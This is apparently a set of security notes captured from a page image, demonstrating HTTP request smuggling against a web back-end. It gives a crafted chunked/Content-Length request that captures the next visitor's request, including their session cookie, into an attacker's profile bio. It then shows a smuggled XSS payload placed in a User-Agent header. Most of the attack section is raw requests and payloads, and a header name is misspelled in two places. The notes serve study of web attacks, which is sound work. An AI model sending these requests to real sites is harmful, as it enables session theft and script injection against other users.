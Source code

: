 ```html
<h1>
User Profile: hax0r
</h1>
<p>
	This is my profile
</p>
```
### Attack Request 
* The intent is to smuggle a request onto the back-end with the intention of capturing the next user request. 
* The search requests need to be shuffled so the reflection is at the end. 
* We care mostly about headers rather than message content 
```http
POST /update-profile HTTP/1.1
Host: test.com
Content-Type: application/x-www-form-urlencoded
Content-Lenght: 129
Transfer-Encoding: chunked

0

POST /update_profile HTTP/1.1
Host: test.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Cookie: session=91as8d907ascdsa978shcajn

language=EN&user=hax0r&update_bio=
```
Stolen session token
```HTML
<h1>
User Profile: hax0r
</h1>
<p>
	GET /admin.php
	Host: test.com
	session=vguESD9823jkWjkfjeWdfd9d833
</p>
```
## Smuggled XSS
* Has a number of advantages over normal XSS:
	1. Doesn't require user interaction, They will be served the request by browsing to the site
	2. You can use this mechanism to open the XSS attack-surface
### XSS Reflection Point
```HTTP
POST /profile HTTP/1.1
Host: test.com
User-Agent: <script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Lenght: 8

u=person
```
